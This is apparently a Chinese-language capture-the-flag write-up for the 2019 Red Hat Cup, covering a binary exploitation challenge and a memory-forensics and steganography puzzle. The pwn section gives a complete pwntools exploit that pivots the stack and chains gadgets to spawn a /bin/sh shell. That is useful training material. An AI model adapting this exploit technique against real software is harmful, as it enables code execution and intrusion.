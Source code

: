 ```yaml
---
title: 2019年第三届红帽杯线上赛wp
visitors: 阅读量
copyright: true
abbrlink: 8243251e
date: 2019-11-16 01:37:24
updated: 2019-11-16 01:37:24
tags:
- writeup
categories:
- writeup
password:
top:
---
```


# PWN

## three

IDA打开之后，函数名都是``sub_xxx``，然后通过nc官方部署的程序（或本地在程序所在目录创建flag文件后），获得程序中会出现的字符串定位到了重要函数，我用的是字符串``Maybe is good``。

贴出来一下重要函数对应的内存地址：

| 函数名（已重命名） | 内存地址   |
| ------------------ | ---------- |
| main               | 0x08048CA8 |
| load_flag          | 0x080488C5 |
| Maybe_is_good      | 0x0804897E |
| main_method        | 0x08048B5C |

四者结构如图：

![四者结构](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191112231835.png)

``load_flag``里面需要加载flag文件，如果没有就exit，也就是一开始无法本地打开原因。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191112232013.png)

Maybe_is_good 里面没有特别的，关键在main_method，先贴出完整代码（以重名部分函数&注释）

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191112232152.png)

gdb调试：'very much' 后输入 'aaa'，'tell me' 后输入 'bbbbbbbbbbb······'。可以看到eax被写入了'aaa'，ecx被写入了'bbbbbbbbbbbbbbbbbbb····'

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191112232844.png)

然后就是第22行代码，看不懂就查汇编，对应的汇编是``call eax``。就是当eax是函数来调用。结合前面的eax会被覆写为输入值，就可以进行**ROP**。

攻击大致流程如下：

1. eax被覆写为payload1
2. 写入payload2
3. call eax
4. int80_call

```python
#!/usr/bin/python2
# -*- coding:utf-8 -*-
from pwn import *


context.log_level = 'debug'
elf = ELF('./pwn')
# 'ldd ./pwn' get libc.so
# libc = ELF('./libc-2.27.so')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

sh = process('./pwn')
sh.sendlineafter('index:\n', str(0)) # 0<=x<=31

payload = asm('''
xchg ecx, esp
ret
''',arch = 'i386')
sh.sendafter(' much!\n', payload)

sh.sendlineafter('size:\n', str(512)) # 0<=x<=512,x>payload

# ROPgadget
layout = [
    0x08072fb1, #: pop edx; pop ecx; pop ebx; ret; 
    0,
    0,
    0x80f6d40, # '/bin/sh\0' address
    0x080c11e6, #: pop eax; ret; 
    11, # len '/bin/sh\0'
    0x080738c0, #: int 0x80; ret; 
]
sh.sendafter('me:\n', flat(layout).ljust(0x80, '\0') + '/bin/sh\0')

sh.interactive()
```

**EXP解释**

* 13、21行两个数值可在注释范围内调整
* payload是交换ecx、esp两个寄存器的值
* layout里面是gadget，向int_80传参
* int_80的作用类似于system，具体看这里
  * https://blog.csdn.net/fivedoumi/article/details/53184797
  * https://blog.csdn.net/maowenl/article/details/32309683
  * https://www.cnblogs.com/caesarxu/p/3261232.html

最后：官方wp解法是交换ecx、esp的内容之后，利用返回值是``1``还是``2``，来逐个字节爆破得出flag。

## Mics

### Advertising for Marriage

内存取证题目。题目给出的是raw文件，这个文件不是图片的那个raw。。。初次之外内存取证还有**dmg**文件。利用的分析工具最主要是``volatility``。

首先查看镜像信息：``volatility -f Advertising\ for\ Marriage.raw imageinfo``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115194954.png)

使用 `WinXPSP2x86` 预设。然后就是查进程：``volatility -f Advertising\ for\ Marriage.raw --profile=WinXPSP2x86 pslist``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115195158.png)

存在记事本进程，查一查有什么：``volatility -f Advertising\ for\ Marriage.raw --profile=WinXPSP2x86 notepad``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115195319.png)

提示：`hint:????needmoneyandgirlfirend`

扫描所有png文件：``volatility  -f Advertising\ for\ Marriage.raw --profile=WinXPSP2x86 filescan|grep png``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115195554.png)

找到一张 `png` 图片：`vegetable.png`。导出图片：``volatility  -f Advertising\ for\ Marriage.raw --profile=WinXPSP2x86 dumpfiles -D . -Q 0x000000000249ae78``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115195756.png)

图片无法显示，报错：`IHDR: CRC ERROR`。

估计图片尺寸被修改了。

用脚本计算图片实际长度和宽度，并且生成修复后的图片。

```python
import os
import binascii
import struct

img = open("vegetable.png", "rb").read()

for w in range(1024):
    for h in range(1024):
        data = img[0xc:0x10] + struct.pack('>i',w) + struct.pack('>i',h) + img[0x18:0x1d]
        crc32 = binascii.crc32(data) & 0xffffffff
        if crc32 == struct.unpack('>i',img[0x1d:0x21])[0] & 0xffffffff:
            print w, h
            print hex(w), hex(h)
            open("vegetable_new.png", "wb").write(img[:0xc] + data + img[0x1d:])
            exit()
```

用 `Stegsolve` 查看图片，找到模糊的 `flag`，一般情况较难恢复。同时，也发现 `lsb` 有点东西。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191116000941.png)

解密需要密钥，密钥为上面记事本找到的提示：`????needmoneyandgirlfirend`，需要魔改工具爆破前 4 字节。

爆破得到密钥 `b1cxneedmoneyandgirlfirend`，这里给出自己写的破解脚本，需要把``lsb加密库``clone [下载](<https://github.com/livz/cloacked-pixel>)，然后把脚本丢里面运行

```python
#coding:utf-8
import os
import string

# creat password
password = []
pd_element =  list(string.ascii_letters) + list(string.digits)
for i in pd_element:
	if i != 'b':
		continue
	for j in pd_element:
		#if j != '1':
			#continue
		for k in pd_element:
			for m in pd_element:
				password.append(i+j+k+m+"needmoneyandgirlfirend")
				#pd = i+j+k+m+"needmoneyandgirlfirend"
				#print "password = %s " %pd

n = 0
file_name = '2.png' # 解密的图片
out_file_1 = 'out.txt' # lsb中间文件
out_file_2 = 'result.txt' # result结果记录文件
for pd in password:
	out_data_2= open(out_file_2,'a')
	pd = 'b1cxneedmoneyandgirlfirend'
	try:
		print "total try {} times\ntrying: {}".format(n,pd)
		argv = r'python lsb.py extract ' + file_name  + ' ' + out_file_1 + ' '+ pd 
		lsb  =  os.popen(argv,'r')
		data = lsb.read()
		lsb.close()
		print "{} SUCCESS".format(pd)
		out_data_1 = open(out_file_1,'r')
		data = out_data_1.read().strip('\n')
		out_data_2.write(data+'\n')
		n += 1
		break
	except:
		print "{} ERROR".format(pd)
		n += 1
	out_data_2.close()

```

解密图片隐写信息，得到字符串：`VmlyZ2luaWEgY2lwaGVydGV4dDpnbnh0bXdnN3IxNDE3cHNlZGJzNjI1ODdoMA==`。

`base64` 解码得到：`Virginia ciphertext:gnxtmwg7r1417psedbs62587h0`。

然后再使用在线维吉尼亚密码解密：密钥``b1cxneedmoneyandgirlfirend``

解密得到： `flagisd7f1417bfafbf62587e0`。